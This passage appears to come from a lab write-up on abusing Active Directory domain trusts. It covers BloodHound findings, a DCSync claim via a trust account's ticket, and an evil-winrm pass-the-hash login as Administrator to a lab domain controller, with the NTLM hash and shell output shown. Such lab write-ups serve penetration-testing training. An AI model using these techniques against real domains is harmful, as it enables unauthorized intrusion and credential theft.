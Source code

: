 Success! We can now collect BloodHound data.  
![alt text](/assets/images/posts/Trusts_htb/mssp.ad.admin.png)


From bloodhound we can see that every domain user is admin in `mssp.ad` since we have `TGT` of trust account wish is also domain user we can DCsync `mssp.ad`
![alt text](/assets/images/posts/Trusts_htb/prove-any-user-admin.png)


Win after win!

```
[Sep 13, 2024 - 23:57:35 (EDT)] exegol-academy /workspace # evil-winrm -i 172.16.114.15 -u Administrator -H 26f4629cf04eedb53e34388a118e2d3e

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami;hostname
mssp\administrator
DC04

```
### Trust with DACL + Shadow Credentials
